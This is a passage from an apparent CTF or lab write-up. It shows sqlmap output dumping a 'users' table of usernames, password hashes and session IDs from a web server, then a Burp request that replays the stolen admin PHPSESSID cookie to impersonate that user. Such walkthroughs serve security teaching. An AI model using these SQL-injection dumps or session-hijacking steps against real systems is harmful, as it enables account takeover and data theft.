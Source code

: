 ```
| 1  | 0     | admin              | 0cc8ad13e3adc57abde1fcb81ae3c9896be04eb27a1411988475cedea5ac6553473de16afaf71c2a546f6bd868b859d6ef1cd065abd6f92e75e22aa4bfecce0a | 3f44e5dedf6b06b5da8c6e5ec7c0f4304f334a2ff2b1da3654942bab969e89765dae32faeabefdc0cf15d506c5146d96289dfa9929af7f60d65055d978e406ec |
| 2  | 0     | dad                | 2d5ca061b638b0d44e337ed5b6ae1eccee72e20794fa98d294b779d65126bd710103a9df137dc4a495fd3059c7ffbc12b7968b49d1a008b9ca860372507a8670 | 3aa746aaed1989910fc64e8bbf6cfa47ca954caa7552b26519fc06c42bf13694e561655ffe2c4b9cee1bddd3771658bd54d7cab82ff807a8619143ae61c562b2 |
| 3  | 0     | asdf               | ce57d8bc990447c7ec35557040756db2a9ff7cdab53911f3c7995bc6bf3572cda8c94fa53789e523a680de9921c067f6717e79426df467185fc7a6dbec4b2d57 | 0a17137c74e6f2ecf86d9920972d10bbc71fde1d99d03864989dcf7406e3f9f7750fb3751d3f497a24fb29ffcda05fba8af48cfd52c1f204f109bc075cb4fe34 |
| 4  | 0     | test               | 560b30a00786abd7c6fb7219dabe7cfc53c9fb952c31719193c16d2d3582164e64b9b11381c49e3cfb6195375f496610dbe09204c2c8bf0486fece673ef24e8d | 
...
+----+-------+--------------------+----------------------------------------------------------------------------------------------------------------------------------+----------------------------------------------------------------------------------------------------------------------------------+

[18:39:01] [INFO] table 'TopSecret.users' dumped to CSV file '/home/viviturtle/.sqlmap/output/162.243.171.85/dump/TopSecret/users.csv'
[18:39:01] [INFO] fetched data logged to text files under '/home/viviturtle/.sqlmap/output/162.243.171.85'

[*] shutting down at 18:39:01

```

We are given a table with the columns, ID, admin, username, password, and session. The password is hashed somehow, so we can't use that unless we want to bruteforce the hash. The only other option is to use the session. As you can see it's stored in the SQL Database. This is bad practice, because session ids should be stored and randomized by the application per login and not stored in a SQL database. Since we have this session id, we can impersonate anyone on the database. Let's impersonate the admin in order to get their secrets.

Let's log back into the web application and check out the home page. We can either change the cookie values in our browser or just do it through Burp. We are going to use the latter. If you recall looking at the request for the Home page, it contains a PHPSESSID.

```
POST http://162.243.171.85/ HTTP/1.1
Host: 162.243.171.85
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:42.0) Gecko/20100101 Firefox/42.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://162.243.171.85/
Cookie: PHPSESSID=e6f1641f4aeb281f0cf7287dc4c9e6be6aee4c0901514340b51f76d406b5a7228adb4187843f80fc378434c575dd47794f4d25c7bca81659670d48533dde583f
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 12

secret=apple
```
